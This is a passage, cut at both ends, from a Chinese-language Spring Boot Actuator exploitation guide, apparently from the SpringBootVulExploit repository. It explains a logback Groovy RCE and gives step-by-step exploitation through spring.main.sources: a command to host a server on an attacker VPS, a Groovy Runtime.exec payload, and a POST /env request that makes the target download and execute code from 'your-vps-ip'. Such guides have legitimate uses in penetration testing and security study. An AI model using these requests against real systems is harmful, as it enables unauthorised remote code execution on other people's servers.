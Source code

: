 **漏洞原理：**

1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `logback-classic` 组件的 `ch.qos.logback.classic.util.ContextInitializer.java` 代码文件逻辑中会判断 url 是否以 `groovy` 结尾
4. 如果 url 以 `groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞

**漏洞环境：**

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```

#### 0x0B：restart spring.main.sources groovy RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/restart` 接口重启应用
* ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
* ⚠️ HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
* ⚠️ 环境中需要存在 groovy 依赖，否则会导致程序异常退出

**利用方法：**

**步骤一：托管 groovy 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `groovy` 结尾的 `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```
Runtime.getRuntime().exec("open -a Calculator")
```

**步骤二：设置 spring.main.sources 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.main.sources=http://your-vps-ip/example.groovy
```

spring 2.x
